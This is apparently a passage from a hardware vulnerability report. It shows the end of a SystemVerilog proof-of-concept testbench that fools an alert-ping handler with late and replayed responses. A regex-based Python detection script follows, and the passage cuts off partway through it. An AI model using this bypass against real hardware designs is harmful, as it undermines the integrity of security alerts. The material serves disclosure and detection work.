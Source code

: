 ```systemverilog
    alert_ping_ok = 1;   // Response arrives after request ended
    #5;
    alert_ping_ok = 0;
    
    // Step 4: Verify spurious detection failed
    if (!spurious_detected) begin
      $display("SUCCESS: Spurious ping response not detected!");
      $display("Alert system can now be fooled with fake responses");
    end
    
    // Step 5: Demonstrate replay attack
    $display("Demonstrating replay attack...");
    repeat (5) begin
      #20;
      alert_ping_ok = 1;
      #5;
      alert_ping_ok = 0;
      if (!spurious_detected) begin
        $display("Replay response #%0d not detected", $time);
      end
    end
    
    $display("Exploit completed - alert integrity compromised");
  end
  
  always #5 clk = ~clk;
  
endmodule
```

## Detection method
**Tool**: Custom SystemVerilog analysis script with timing analysis capabilities  
**Methodology**: 
1. **Temporal Logic Analysis**: Examined ping request/response timing relationships
2. **State Machine Verification**: Analyzed FSM transitions for spurious detection logic
3. **Security Property Checking**: Verified that spurious detection covers all attack vectors

**Detection script**:
```python
def analyze_ping_timing_vulnerability():
    """Detect timing-based ping bypass vulnerabilities"""
    findings = []
    
    # Pattern for spurious ping detection
    spurious_patterns = [
        r'alert_ping_ok.*&.*~alert_ping_req',  # Current cycle only check
        r'spurious.*ping.*detection',           # Spurious detection logic
        r'ping_ok.*ping_req.*timing'            # Timing-related logic
    ]
    
    # Check for insufficient timing validation
    for line_num, line in enumerate(file_lines):
        if any(re.search(pattern, line) for pattern in spurious_patterns):
            # Check if proper timing validation exists
            context = get_context_lines(line_num, 10)
            if not has_timing_validation(context):
                findings.append({
                    'type': 'Spurious ping detection bypass',
                    'line': line_num,
                    'severity': 'High',
                    'description': 'Insufficient timing validation in spurious detection'
                })
    
```